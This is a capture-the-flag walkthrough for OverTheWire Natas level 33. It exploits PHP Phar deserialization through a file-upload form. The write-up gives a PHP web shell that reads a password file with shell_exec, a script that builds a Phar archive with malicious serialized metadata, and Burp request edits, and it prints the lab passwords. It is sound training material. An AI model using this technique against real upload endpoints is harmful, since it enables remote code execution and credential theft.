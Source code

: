 # Natas CTF Solutions  

## Natas Level 33  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit **PHP Object Injection** using a **Phar deserialization attack** to execute arbitrary code and extract the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas33.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas33`  
- **Password:** Use the password from Natas Level 32:  
```
2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ
```  

![Home_Page](https://github.com/user-attachments/assets/e5b76c2c-2575-42ff-8aa7-9fbefaf6b1f0)

---

### **Step 3: Review the Source Code**  
The source code shows that the website accepts file uploads.  
The challenge is to create a **malicious PHP file** and use a **Phar deserialization attack** to execute arbitrary code.  

![Source_Code](https://github.com/user-attachments/assets/dce46bae-3283-4428-be7b-cc16211b03e7)

---

### **Step 4: Create a PHP File to Read the Password**  
Create a file named `pwn.php` with the following code:  

```php
<?php 
echo shell_exec('cat /etc/natas_webpass/natas34'); 
?>
```  

✅ **Explanation:**  
- `shell_exec()` → Executes the `cat` command to read the password file.  

---

### **Step 5: Create a `test.php` File for Phar Deserialization**  
Create a file named `test.php`:  

```php
<?php
class Executor {
    private $filename = "pwn.php"; 
    private $signature = True;
    private $init = false;
}

$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString("test.txt", 'test');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new Executor();
$phar->setMetadata($o);
$phar->stopBuffering();
?>
```

✅ **Explanation:**  
- This code creates a **Phar archive** with serialized metadata.  
- The `filename` is set to `pwn.php`, which allows for execution.  
- Phar deserialization allows loading the serialized object and executing commands.  

---

### **Step 6: Generate the Phar File**  
Run the following command to create the `test.phar` file:  

```bash
php -d phar.readonly=false test.php
```  

✅ **Explanation:**  
- `-d phar.readonly=false` → Disables read-only mode to create the Phar file.  

---

### **Step 7: Upload the PHP and Phar Files**  
1. Upload **pwn.php** using the file upload option.  
2. Use **Burp Suite** to capture the upload request.  
3. Rename the file to `pwn.php` in the request and forward it.  

![BurpSuite](https://github.com/user-attachments/assets/30177439-23e6-48c6-8a08-f16a20ad99f1)

---

### **Step 8: Upload the Phar File and Modify the Request**  
1. Upload `test.phar` using the file upload option.  
2. Capture the request using **Burp Suite**.  

![image](https://github.com/user-attachments/assets/0b41ace1-7125-4bc5-9cfc-797fd75e19df)

3. In **Repeater**, modify the request to use:  

```http
phar://test.phar/test.txt
```  

4. Send the request — the password will be printed!  

![Phar_Upload](https://github.com/user-attachments/assets/c1b1051e-53ea-4a6a-acd1-d12247aed037)

---

### **✅ Password for Natas Level 34**  
```
j4O7Q7Q5er5XFRCepmyXJaWCSIrslCJY
```

---

## 💡 **Lessons Learned**  
✔️ **Phar Deserialization:** Phar archives allow serialization of metadata, which can lead to command execution if improperly handled.  
✔️ **Command Injection:** Combining file upload and deserialization can lead to RCE (Remote Code Execution).  
✔️ **Burp Suite Manipulation:** Intercepting and modifying HTTP requests allows for bypassing security checks.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 4 – PHP File Upload | ![BurpSuite](https://github.com/user-attachments/assets/30177439-23e6-48c6-8a08-f16a20ad99f1) |  
| Step 8 – Phar Exploit | ![Phar_Upload](https://github.com/user-attachments/assets/c1b1051e-53ea-4a6a-acd1-d12247aed037) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 34**:  
👉 [http://natas34.natas.labs.overthewire.org](http://natas34.natas.labs.overthewire.org)  

---


